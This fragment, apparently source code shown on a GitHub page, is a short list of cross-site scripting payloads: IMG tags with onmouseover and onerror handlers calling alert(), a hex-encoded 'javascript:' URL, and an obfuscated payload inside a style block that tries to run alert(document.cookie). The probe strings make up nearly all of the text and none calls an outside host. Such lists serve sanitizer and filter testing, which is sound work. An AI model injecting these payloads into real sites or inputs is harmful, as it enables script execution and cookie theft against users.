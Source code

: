 <IMG onmouseover="alert('xxs')" onerror='alert(2)' src="hello">
  <IMG onmouseover="alert('xxs')" onerror='alert(2)' src="../hellox">
<IMG onmouseover="alert('xxs')" onerror='alert(21)' src="../../../../../../">
  <IMG onmouseover="alert('xxs')" onerror='alert(22)' src="../google.co'm%22xx">
\x6A\x61\x76\x61\x73\x63\x72\x69\x70\x74\x3aalert(1)
<style>

i{<\/\s\t\y\le><\i\m\g\20\o\ne\r\r\o\r=\"a\le\r\t(d\oc\u\me\nt.c\o\o\kie)\"\s\rc=\'eeeeeee\'\20>{
}
</style>

